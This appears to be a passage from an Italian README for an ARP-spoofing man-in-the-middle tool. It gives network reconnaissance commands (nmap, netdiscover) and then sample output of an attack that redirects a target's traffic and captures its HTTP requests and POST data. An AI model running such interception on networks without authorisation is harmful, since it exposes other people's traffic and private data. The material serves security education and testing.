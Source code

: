 ### Network Discovery Pre-Attack

#### Scoprire Target e Gateway
```bash
# Identifica la tua interfaccia di rete
ip addr show

# Trova il gateway predefinito  
ip route show | grep default
# Output: default via 192.168.1.1 dev wlan0

# Scansiona la rete locale
netdiscover -r 192.168.1.0/24
# O alternativamente:
nmap -sn 192.168.1.0/24
```

### Esecuzione Attacco MITM

#### Output Attacco Reale
```
🎯 Advanced MITM ARP Spoofer v2.0
=================================
⚠️  Solo per scopi educativi e test di sicurezza

[+] Risolvendo MAC address per 192.168.x.58...
[+] MAC di 192.168.x.58 è 08:00:27:2f:36:a6
[+] Risolvendo MAC address per 192.168.x.141...
[+] MAC di 192.168.x.141 è 2a:42:c4:38:b7:66
[+] Abilitando IP forwarding...
[+] Configurando iptables...
[+] Avviando cattura pacchetti HTTP...

🎯 Iniziando MITM attack:
    Target: 192.168.x.58 (08:00:27:2f:36:a6)
    Gateway: 192.168.x.141 (2a:42:c4:38:b7:66)
    Interface: wlo1

📡 ARP spoofing attivo (modalità silenziosa)
🕵️  Monitorando traffico HTTP...

🌐 [14:30:30] HTTP GET Request
    From: 192.168.x.58 → To: 146.190.62.39
    URL: http://httpforever.com/

📡 [14:30:30] HTTP Response
    From: 146.190.62.39 → To: 192.168.x.58
    Status: 200

🌐 [14:30:31] HTTP POST Request
    From: 192.168.x.58 → To: 216.58.205.35
    URL: http://o.pki.goog/wr2
    POST Data: 0R0P0N0L0J0...

📊 Pacchetti ARP inviati: 150+ | Dati intercettati: 25
```
